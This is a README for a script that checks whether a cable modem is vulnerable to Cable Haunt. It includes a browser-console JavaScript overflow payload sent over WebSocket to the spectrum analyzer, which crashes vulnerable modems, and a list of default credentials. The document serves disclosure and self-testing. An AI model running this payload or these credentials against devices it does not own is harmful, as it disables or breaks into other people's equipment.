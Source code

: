 # Cable Haunt Test Script
​
This is a script for automatically testing whether your modem is vulnerable for the [Cable Haunt Vulnerability](https://cablehaunt.com). Per default the script will test for the spectrum analyzer with the following parameter, please see below why and how to change it

```
Target IP: '192.168.100.1'
Port Range: 23 - 10000
Test Credentials: [None, "admin:password", 'askey:askey',  "user:Broadcom", 'Broadcom:Broadcom', 'broadcom:broadcom', 'spectrum:spectrum', 'admin:bEn2o#US9s']
```

<p align="center">
<b>ONLY RUN THIS CODE ON HARDWARE YOU OWN</b>​
</p>

False negatives are possible via the script and you could be still be vulnerable even if the script fails. If you find the spectrum analyser manually you can also test whether it is vulnerable by running the following javascript in your browsers console while having the spectrum analyzer open and logged in.
```
exploit = '{"jsonrpc":"2.0","method":"Frontend::GetFrontendSpectrumData","params":{"coreID":0,"fStartHz":' + 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' +',"fStopHz":1000000000,"fftSize":1024,"gain":1},"id":"0"}'
console.log(exploit)


var socket = new WebSocket("ws://192.168.100.1:8080/Frontend", 'rpc-frontend') //Or some other ip and port!!!

socket.onopen = function(e) {
    socket.send(exploit)
};
```
If this crashes your modem, you are vulnerable.
​
## How to run it
First install [pipenv](https://github.com/pypa/pipenv).

```
pipenv install
```

```
pipenv run python test.py
```

## How to it works
The script automatically scans your network to find the spectrum analyzer and tries to establish a connection to the WebSocket. The script will test if the modem rejects requests from an external origin, by setting the header parameters similar to how a browser or other modern client would. If the connection is established, the spectrum analyzer can be reached indirectly from outside the local network and is, at least partly, vulnerable. The script will afterwards, with your permission, send a specially crafted package that reboots the modem if vulnerable. If this happens, the modem is completely vulnerable.
​
## How to change IP and ports
If the script does not find the spectrum analyzer, it could mean that it is not looking at the correct IPs or ports. We have not yet seen a cable modem where "192.168.100.1" is not an alias for the cable modem or with active ports above 10000, so the script only scans this per default. However, it is possible that a specific ISP or manufacturer has changed this and we would very much like to know if it happens. The IPs and port range are set as variables in the top of the script so if you want to test more than the default, please change line 14 and 15

```
# ======== Scan parameters ========
targets = ['192.168.100.1']
portRange = range(23, 10000)
```

to for instance

```
# ======== Scan parameters ========
targets = ['192.168.100.1', '192.168.0.1', '192.168.1.1]
portRange = range(23, 65535)
```

Remember that the more you add, the longer the port scan will take.

## How to change credentials
The spectrum analyzer is sometimes password protected. This is changeable by the ISP and manufacturer and may therefore vary. The script uses a list of default credentials seen in the wild, that are all tried against the endpoints. If the script returns a "401: Unauthorized" on one of the possible target ports, it could mean that your spectrum analyzer uses new unknown credentials. Remember to use common sense here, for instance, you would probably get a 401 on port 80 on your default gateway since this the user interface. You add to the list of credentials that are tested on line 16 of the script.

## Disclaimer
This tool should be used for verification purposes only, and should not be used on equipment you do not own or otherwise is not allowed to destroy.
There are absolutely no guarantees that this tool will detect any vulnerabilities, nor that it will not damage your equipment or cause damage in some other way. USE AT YOUR OWN RISK.
​
## Other Resources
- [**The Cable Haunt website**](https://cablehaunt.com)
- [**Download the technical report**](https://github.com/Lyrebirds/Cable-Haunt-Report/releases/latest/download/report.pdf)
- [**Sagemcom F@st exploit POC**](https://github.com/Lyrebirds/sagemcom-fast-8690-exploit)
